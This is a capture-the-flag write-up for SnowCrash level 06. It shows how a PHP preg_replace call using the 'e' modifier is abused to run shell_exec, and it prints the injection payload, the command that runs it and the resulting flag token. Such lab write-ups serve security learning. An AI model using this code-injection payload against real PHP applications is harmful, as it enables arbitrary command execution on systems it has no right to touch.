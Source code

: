 # Level 06

## Analysis

In the user's home directory, we found a PHP script that accepts two arguments. The first argument specifies the path of a file to be read, and its contents are subjected to a regex operation using the `preg_replace` function. We discovered that this function could be exploited, particularly with the 'e' flag, which allows for the execution of arbitrary code.

We created a file containing a string that matches the regex and also executes the `getflag` command:

```bash
echo '[x {${shell_exec(getflag)}}]' > /tmp/input
```

Executing the script with this input:

```bash
level06@SnowCrash:~$ ./level06 /tmp/input
```

Resulted in the following output, which includes the flag:

```
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

## Documentation

- Discussion on exploiting `preg_replace` function: [Understanding preg_replace filtering exploitation](https://security.stackexchange.com/questions/151142/understanding-preg_replace-filtering-exploitation).
- Techniques to identify and execute PHP code within a string: [Identify and execute PHP code on a string](https://stackoverflow.com/questions/6103175/identify-and-execute-php-code-on-a-string).